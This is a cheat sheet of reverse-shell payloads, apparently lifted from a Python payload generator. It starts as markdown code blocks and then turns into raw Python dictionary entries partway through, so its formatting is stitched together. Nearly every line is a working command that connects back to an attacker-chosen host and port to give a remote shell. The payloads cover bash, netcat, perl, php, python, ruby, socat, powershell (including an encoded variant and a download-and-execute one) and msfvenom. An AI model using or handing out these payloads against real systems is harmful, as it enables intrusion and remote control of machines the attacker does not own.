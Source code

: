 # Spawning a shell

```bash
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f asp > revshell.asp' % (ipaddr, port),
```

```bash
# AWK
awk \'BEGIN {s = "/inet/tcp/0/%s/%d"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}\' /dev/null' % (ipaddr, port),
```

```bash
# Bash - Option 1
bash -i >& /dev/tcp/%s/%d 0>&1' % (ipaddr, port),
```

```bash
# Bash - Option 2
0<&196;exec 196<>/dev/tcp/%s/%d; bash <&196 >&196 2>&196' % (ipaddr, port),
```

```bash
# Bash - Option 3
exec 5<> /dev/tcp/%s/%d; cat <&5 | while read line; do $line 2>&5>&5; done' % (ipaddr, port),
```

```bash
# Java
r = Runtime.getRuntime();p = r.exec(["/bin/sh","-c","exec 5<>/dev/tcp/%s/%d;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor();' % (ipaddr, port),
```

```bash
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=%s LPORT=%d -f raw > revshell.jsp' % (ipaddr, port),
```

```bash
# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f elf > revshell' % (ipaddr, port),
```

```bash
# Lua
lua5.1 -e \'local host,port = \"%s\",%d local socket = require(\"socket\") local tcp = socket.tcp() local io = require(\"io\") tcp:connect(host,port); while true do local cmd,status,partial = tcp:receive() local f = io.popen(cmd,'r') local s = f:read(\"*a\") f:close() tcp:send(s) if status == \"closed\" then break end end tcp:close()\'' % (ipaddr, port),
```

```bash
# Netcat 
nc -e /bin/sh %s %d' % (ipaddr, port),
```

```bash
# Netcat -c
nc -c /bin/sh %s %d' % (ipaddr, port),
```

```bash
# Netcat mkfifo
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %d >/tmp/f' % (ipaddr, port),
```       

```bash
# Netcat mknod
rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc %s %d 1>/tmp/l' % (ipaddr, port),
```

```bash
# Netcat pipe
/bin/sh | nc %s %d' % (ipaddr, port),
```       
       
```bash
# Ncat
ncat %s %d -e /bin/sh' % (ipaddr, port),
```

        'nodejs':'(function(){var net=require("net"),cp=require("child_process"),sh=cp.spawn("/bin/sh",[]);var client=new net.Socket();client.connect(%d,"%s",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();' % (port, ipaddr),
        'osx-bin':'msfvenom -p osx/x86/shell_reverse_tcp LHOST=%s LPORT=%d -f macho > revshell.macho' % (ipaddr, port),
        'perl':'perl -e \'use Socket;$i="%s";$p=%d;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'' % (ipaddr, port),
        'perl-2':'perl -MIO -e \'$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"%s:%d");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;\'' % (ipaddr, port),
        'perl-windows':'perl -MIO -e \'$c=new IO::Socket::INET(PeerAddr,"%s:%d");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;\'' % (ipaddr, port),
        'php':'php -r \'$sock=fsockopen("%s",%d);exec("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
        'php-2':'php -r \'$s=fsockopen("%s",%d);shell_exec("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
        'php-3':'php -r \'$s=fsockopen("%s",%d);`/bin/sh -i <&3 >&3 2>&3`;\'' % (ipaddr, port),
        'php-4':'php -r \'$s=fsockopen("%s",%d);system("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
        'php-5':'php -r \'$s=fsockopen("%s",%d);popen("/bin/sh -i <&3 >&3 2>&3", "r");\'' % (ipaddr, port),
        'ps-tcp':'powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient(\"%s\",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' % (ipaddr, port),
        'ps-iex':'powershell IEX (New-Object Net.WebClient).DownloadString("http://%s:%d/revshell.ps1") \n\nMake a revshell.ps1 file and put it on your server!' % (ipaddr, port),
        'ps-b64':'powershell -e '+ b64encode(('$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' % (ipaddr, port)).encode('utf16')[2:]).decode(),
        'python':'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"%s\",%d));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'' % (ipaddr, port),
        'python-2':'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("%s",%d));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")\'' % (ipaddr, port),
        'ruby':'ruby -rsocket -e\'f=TCPSocket.open(\"%s\",%d).to_i;exec sprintf(\"/bin/sh -i <&3 >&3 2>&3\",f,f,f)\'' % (ipaddr, port),
        'ruby-2':'ruby -rsocket -e \'exit if fork;c=TCPSocket.new("%s","%d");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end\'' % (ipaddr, port),
        'ruby-windows':'ruby -rsocket -e \'c=TCPSocket.new("%s","%d");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end\'' % (ipaddr, port),
        'socat':'socat exec:\'bash -li\',pty,stderr,setsid,sigint,sane tcp:%s:%d \n\n[+] Catch incoming shell with:\n\nsocat file:`tty`,raw,echo=0 tcp-listen:%d' % (ipaddr, port, port),
        'tclsh':'echo \'set s [socket %s %d];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;\' | tclsh' % (ipaddr, port),
        'telnet':'rm -f /tmp/p; mknod /tmp/p p && telnet %s %d 0/tmp/p' % (ipaddr, port),
        'telnet-mkfifo':'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet %s %d > /tmp/f' % (ipaddr, port),
        'war':'msfvenom -p java/shell_reverse_tcp LHOST=%s LPORT=%d -f war -o revshell.war' % (ipaddr, port),
        'win-bin':'msfvenom -p windows/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f exe > revshell.exe' % (ipaddr, port),
        'xterm':'xterm -display %s:1 \n\n[+] Connect to your shell with:\n\nXnest :1 or xhost +targetip' % (ipaddr)
    }

